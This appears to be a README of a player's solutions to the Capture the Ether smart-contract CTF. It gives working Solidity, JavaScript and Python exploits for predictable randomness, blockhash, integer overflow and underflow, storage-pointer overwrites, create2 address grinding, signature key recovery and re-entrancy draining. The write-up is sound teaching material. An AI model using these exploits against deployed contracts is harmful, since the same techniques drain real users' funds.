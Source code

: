 # capture-the-ether-ctf-solutions

For most of these, I used Nader's excellent tutorial for a React + Ethers app and only provide the App.js contents:

[The Complete Guide to Full Stack Ethereum Development](https://dev.to/dabit3/the-complete-guide-to-full-stack-ethereum-development-3j13) 


<details>
    <summary>👋 Choose a Nickname</summary>

```javascript
import './App.css';
import { useState } from 'react';
import { ethers } from 'ethers'
import CaptureTheEther from './artifacts/contracts/CaptureTheEther.sol/CaptureTheEther.json'
 
const abi = [
 "function setNickname(bytes32 nickname)",
];
 
const challengeAddress = "..."
 
function App() {
 const [nickname, setNicknameValue] = useState()
 
 // request access to the user's MetaMask account
 async function requestAccount() {
   await window.ethereum.request({ method: 'eth_requestAccounts' });
 }
 
 // call the smart contract, send an update
 async function setNickname() {
   if (!nickname) return
   if (typeof window.ethereum !== 'undefined') {
     await requestAccount()
     const provider = new ethers.providers.Web3Provider(window.ethereum);
     const signer = provider.getSigner()
     const contract = new ethers.Contract(challengeAddress, abi, signer)
 
     const nicknameAsBytes32 = ethers.utils.formatBytes32String(nickname);
     console.log("Nickname is ", nickname, " and as bytes32: ", nicknameAsBytes32);
 
     const transaction = await contract.setNickname(
       nicknameAsBytes32,
       {
         gasLimit: 1500000
       })
 
     await transaction.wait()
   }
 }
 
 return (
   <div className="App">
     <header className="App-header">
       <button onClick={setNickname}>Set Nickname</button>
       <input onChange={e => setNicknameValue(e.target.value)} placeholder="Set nickname" />
     </header>
   </div>
 );
}
 
export default App;
```

</details>

<details>
    <summary>✌️ Guess the number</summary>

```javascript
import './App.css';
import { useState } from 'react';
import { ethers } from 'ethers'
 
const abi = [
 "function guess(uint8 n) public payable",
];
 
const challengeAddress = "..."
 
function App() {
 // request access to the user's MetaMask account
 async function requestAccount() {
   await window.ethereum.request({ method: 'eth_requestAccounts' });
 }
 
 async function guess() {
   if (typeof window.ethereum !== 'undefined') {
     await requestAccount()
     const provider = new ethers.providers.Web3Provider(window.ethereum);
     const signer = provider.getSigner()
     const contract = new ethers.Contract(challengeAddress, abi, signer)
 
     const transaction = await contract.guess(42,
       {
         gasLimit: 1500000,
         value: ethers.utils.parseEther('1')
       })
 
     await transaction.wait()
   }
 }
 
 return (
   <div className="App">
     <header className="App-header">
       <button onClick={guess}>Guess 42</button>
     </header>
   </div>
 );
}
 
export default App;
```

</details>

<details>
    <summary>🤫 Guess the secret number</summary>

I didn't save the Javascript for this one, but the key insight is that the answer is only a `uint8`. So just do something like this:

```python
for i in xrange(255):
    if keccak256(i) == 0xdb81b4d58595fbbbb592d3661a34cdca14d7ab379441400cbfa1b78bc447c365:
        print(i)
        break
```

</details>

<details>
    <summary>🎲 Guess the random number</summary>

Look up the contract address in etherscan and look at the state change during the contract creation. The expected answer is going to be there in plain sight.

</details>

<details>
    <summary>💁‍♀️ Guess the new number</summary>
The number is now generated on demand, so we can't avoid writing some code. Just compute exactly the answer it expects and send it to the challenge contract, we don't even need to know what it is:

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface GuessTheNewNumberChallenge {
    function guess(uint8 n) external payable;
}

contract Guesser {
    constructor() payable {}

    receive() payable external {}
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
    
    function pullTheTrigger() public {
        GuessTheNewNumberChallenge instance = GuessTheNewNumberChallenge(address(...));
        uint8 answer = uint8(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))[31]);
        instance.guess{value: 1 ether}(answer);
    }
}
```

</details>

<details>
    <summary>🔮 Predict the future</summary>

We can exploit the fact that there are only 10 possible answers, so we can choose anything we want. And to avoid wasting ether, we use `require` to only send the transaction in a block that produces the right answer.

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface GuessTheNewNumberChallenge {
    function lockInGuess(uint8 n) external payable;
    function settle() external;
}

contract Guesser {
    GuessTheNewNumberChallenge instance = GuessTheNewNumberChallenge(address(...));
    uint8 expectedAnswer = 2;

    constructor() payable {}

    receive() payable external {}
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
    
    function lockInGuess() public {
        instance.lockInGuess{value: 1 ether}(expectedAnswer);
    }
    
    function pullTheTrigger() public {
        uint8 answer = uint8(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))[31]) % 10;
        
        // going to keep hitting this until we find a happy block
        require(answer == expectedAnswer);
        
        instance.settle();
    }
}
```

</details>

<details>
    <summary>🍳 Guess the block hash/summary>

Relevant [Solidity docs](https://docs.soliditylang.org/en/v0.8.6/units-and-global-variables.html?highlight=blockhash#block-and-transaction-properties):

`blockhash(uint blockNumber) returns (bytes32)`: hash of the given block when blocknumber is one of the 256 most recent blocks; otherwise returns zero

We can exploit that by guessing that the blockhash will become 0 in the future. Exactly 256 blocks in the future in fact 😅

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface GuessTheNewNumberChallenge {
    function lockInGuess(bytes32 hash) external payable;
    function settle() external;
}

contract Guesser {
    GuessTheNewNumberChallenge instance = GuessTheNewNumberChallenge(address(...));

    constructor() payable {}

    receive() payable external {}
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
    
    function lockInGuess() public {
        instance.lockInGuess{value: 1 ether}(0);
    }
    
    function pullTheTrigger() public {
        // wait for 256 blocks and then the blockhash of the settlement block will magically become 0 :)
        instance.settle();
    }
}

```

</details>

<details>
    <summary>🛍️ Token sale</summary>
Ping me if you know an analytical solution. I wasn't sure so I went with this python program to find the smallest value that causes an overflow:

```python
def requiredValueWei(numTokens):
 return (numTokens * 10**18) % 2**256
 
def causesOverflow(numTokens):
   return requiredValueWei(numTokens) < numTokens * 10**18
 
def formattedHex(num):
   return '0x' + hex(num)[2:].zfill(64)
 
def bisect(lower_bound, higher_bound):
   print(f'looking for smallest overflow candidate in [{formattedHex(lower_bound)}..{formattedHex(higher_bound)}]')
   candidate = (lower_bound + higher_bound) // 2
   if candidate in [lower_bound, higher_bound]:
       return higher_bound
  
   else:
       if causesOverflow(candidate):
           return bisect(lower_bound, candidate)
      
       else:
           return bisect(candidate, higher_bound)

i = 0
while True:
   numTokens = 2**i
   print(f'trying {hex(numTokens)}')
   if causesOverflow(numTokens):
       break
   i += 1
  
print('First power of 2 that causes an overflow:', i)
print(f'buying {numTokens} tokens would "only" require {requiredValueWei(numTokens)} wei')
 
numTokens = bisect(2**(i-1), 2**i)
print(f'buying {numTokens} tokens would "only" require {requiredValueWei(numTokens)} wei')
```

After that we can just:

```javascript
instance.buy{value: 415992086870360064 wei}(0x0000000000000012725dd1d243aba0e75fe645cc4873f9e65afe688c928e1f22);
instance.sell(1);
```

</details>


<details>
    <summary>🐳 Token whale</summary>

Deploy this approver contract and call `approveMe()`:

```javascript
pragma solidity >=0.7.0 <0.9.0;

interface TokenWhale {
    function approve(address spender, uint256 value) external;
}

contract Approver {
    TokenWhale instance;

    constructor(address theAddress) payable {
        instance = TokenWhale(theAddress);
    }

    receive() payable external {}
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
    
    function approveMe() public {
        instance.approve(msg.sender, 1000000);
    }
}
```

Then:

- transfer 1000 tokens to the Approver contract 
- we now have a balance of 0, so call `transferFrom(Approver, Approver, 1)`
- _transfer is dumb and will actually remove 1 token from `msg.sender` (aka us), underflowing us and giving us 0xffff..ffff tokens 🙌


</details>


<details>
    <summary>👴 Retirement fund</summary>

Just force some eth into the contract with a self destruct contract as described in [Mastering Ethereum](https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#unexpected-ether).

</details>


<details>
    <summary>🗺️ Mapping</summary>

Write a value at key 0, notice where the state was changed in etherscan.

In my case the value was written at address `0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`
so we compute the overflow key as:

```python
key = int('0x' + 'ff' * 32, 16) - 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6 + 1
```

Just set that key to 1 and you've overridden the `isComplete` boolean


</details>


<details>
    <summary>🙏 Donation</summary>

The Donation object is initially created as a storage pointer, so the value amount actually overwrites the owner field.

Just need to pass an appropriate amount of wei in order to become the owner (`address / 10**36`).

</details>


<details>
    <summary>📆 Fifty years</summary>

This one gave me a ton of grief 😅 It's easy to end up in a state where the contributions are so messed up that it becomes difficult or impossible to recover the funds.

Two key insights:

- `require(timestamp >= queue[queue.length - 1].unlockTimestamp + 1 days);` can be overflowed, so we can create a tx with a giant `unlockTimestamp` and then the next (overflowed) one has an `unlockTimestamp` in the past (so we can withdraw it and everything else before it)

- like in the previous challenge, new Contributions are initialized as a storage pointer, so they stomp the queue (with the amount of the contibution) and the head values (with the `unlockTimestamp`).

Step by step:

- upsert(1, N) 1 wei (should set length=2, head=N) (where N = 0xff..ff - 2 day + 1 = 115792089237316195423570985008687907853269984665640564039457584007913129467136)
- upsert(2, M) 2 wei (should set length=3, head=M) where M = 0xff..ff - 1 day + 1 = 115792089237316195423570985008687907853269984665640564039457584007913129553536

⚠️ problem is at this point we've added 3 wei to the balance of the contract, but because it increases length by pushing, that messes up the contribution amount by 1 every time. So by the time it computes the total, it wants to send 1 eth and 5 wei, which causes a revert because the contract only has 1 eth and 3 wei
✅ solution: we just need to pad with another "fake" contribution where we add 2 wei, but we don't want to withdraw it. It's just so that the total balance of the contract is sufficient!

- upsert(3, 0) 2 wei (should set length=3 (wrong but ok), head=0)
- withdraw(2) -> should properly be able to grab everything from head=0 to length=3 and give us the money

</details>

<details>
    <summary>🛂 Fuzzy identity</summary>

Using the create2 opcode, we can control a bit more the address of the generated contracts, so given that this is the contract that we want to deploy:

```solidity
contract MyNameIsSmarx {
    function name() external pure returns (bytes32) {
        return bytes32("smarx");
    }
    
    function pullTheTrigger() public {
        FuzzyIdentityChallenge instance = FuzzyIdentityChallenge(address(...));
        instance.authenticate();
    }
}
```

Compile it and note its bytecode. 
Then deploy a deployer contract and note its address:

```solidity
contract SmarxDeployer {
    event FoundOne(address);
    
    function deploySmarx(bytes memory code, uint256 salt) public returns(address) {
        address addr;
        assembly {
          addr := create2(0, add(code, 0x20), mload(code), salt)
          if iszero(extcodesize(addr)) {
            revert(0, 0)
          }
        }
        
        emit FoundOne(addr);
        return addr;
    }
}
```

Then we run [create2.py](https://github.com/karmacoma-eth/yolo-evm#create2py):

```shell
python3 create2.py <deployer_addr> 'lambda addr: "badc0de" in addr.lower()' <mynameissmarx_bytecode>
```

until it finds a salt value that will generate a MyNameIsSmarx contract with an address that contains `badc0de`.


</details>

<details>
    <summary>🔑 Public key</summary>

We got to get the r, s and v values from the signature of this transaction:
https://ropsten.etherscan.io/tx/0xabc467bedd1d17462fcc7942d0af7874d6f8bdefee2b299c9168a216d3ff0edb

From r, s, and v we should be able to recover the public key of the account.

```javascript
import './App.css';
import { useState } from 'react';
import { ethers } from 'ethers'
 
 
const abi = [
 "function authenticate(bytes publicKey) public",
];
 
const challengeAddress = "..."
 
function App() {
 async function requestAccount() {
   await window.ethereum.request({ method: 'eth_requestAccounts' });
 }
 
 async function pullTheTrigger() {
   if (typeof window.ethereum !== 'undefined') {
     await requestAccount()
     const provider = new ethers.providers.Web3Provider(window.ethereum);
     const signer = provider.getSigner()
 
     // from https://ropsten.etherscan.io/getRawTx?tx=0xabc467bedd1d17462fcc7942d0af7874d6f8bdefee2b299c9168a216d3ff0edb
     const tx = ethers.utils.parseTransaction('0xf87080843b9aca0083015f90946b477781b0e68031109f21887e6b5afeaaeb002b808c5468616e6b732c206d616e2129a0a5522718c0f95dde27f0827f55de836342ceda594d20458523dd71a539d52ad7a05710e64311d481764b5ae8ca691b05d14054782c7d489f3511a7abf2f5078962')
    
     // code to recover the public key from https://ethereum.stackexchange.com/questions/78815/ethers-js-recover-public-key-from-contract-deployment-via-v-r-s-values
     const expandedSig = {
       r: tx.r,
       s: tx.s,
       v: tx.v
     };
    
     const signature = ethers.utils.joinSignature(expandedSig)
     const txData = {
       gasPrice: tx.gasPrice,
       gasLimit: tx.gasLimit,
       value: tx.value,
       nonce: tx.nonce,
       data: tx.data,
       chainId: tx.chainId,
       to: tx.to // you might need to include this if it's a regular tx and not simply a contract deployment
     }
 
     const rsTx = await ethers.utils.resolveProperties(txData)
     const raw = ethers.utils.serializeTransaction(rsTx) // returns RLP encoded tx
     const msgHash = ethers.utils.keccak256(raw) // as specified by ECDSA
     const msgBytes = ethers.utils.arrayify(msgHash) // create binary hash
     const recoveredPubKey = ethers.utils.recoverPublicKey(msgBytes, signature)
 
     // recoveredPubKey is uncompressed, so starts with 0x04
     const compressedPubKey = ethers.utils.arrayify(recoveredPubKey).slice(1)
     const contract = new ethers.Contract(challengeAddress, abi, signer)
    
     // we need to submit the compressedPubKey, otherwise the hash won't match on the smart contract side
     await contract.authenticate(compressedPubKey, {gasLimit: 1500000})
   }
 }
 
 return (
   <div className="App">
     <header className="App-header">
       <button onClick={pullTheTrigger}>Pull the trigger</button>
     </header>
   </div>
 );
}
 
export default App;
```

</details>

<details>
    <summary>⏳ Account takeover</summary>

Haven't figured out this one yet 😔

</details>

<details>
    <summary>🧠 Assume ownership</summary>

Like in the Ethernaut challenge, what looks like a constructor is actually a public function, so just call it to become the owner.

</details>

<details>
    <summary>🏦 Token Bank</summary>

1. Withdraw the tokens from the bank
2. Transfer them to the Heist contract
3. the Heist contract deposits them to the bank
4. the Heist contract withdraws them, but exploits re-entrancy in withdraw

```solidity
contract Heist {
    TokenBankChallenge bank = TokenBankChallenge(...);
    SimpleERC223Token token = SimpleERC223Token(...);
    bool firstTime = true;

    function deposit() public {
        token.transfer(bank, token.balanceOf(this));
    }

    function withdraw() public {
        // we're going to reentrancy the heck out of this
        bank.withdraw(500000 * 10**18);
    }
    
    function tokenFallback(address from, uint256 value, bytes) public {
        if (from != address(bank)) {
            return;
        }
        
        if (!firstTime) {
            return;
        }
        
        firstTime = false;
        withdraw();
    }
    
    function drain() public {
        token.transfer(msg.sender, token.balanceOf(this));
    }
}
```

</details>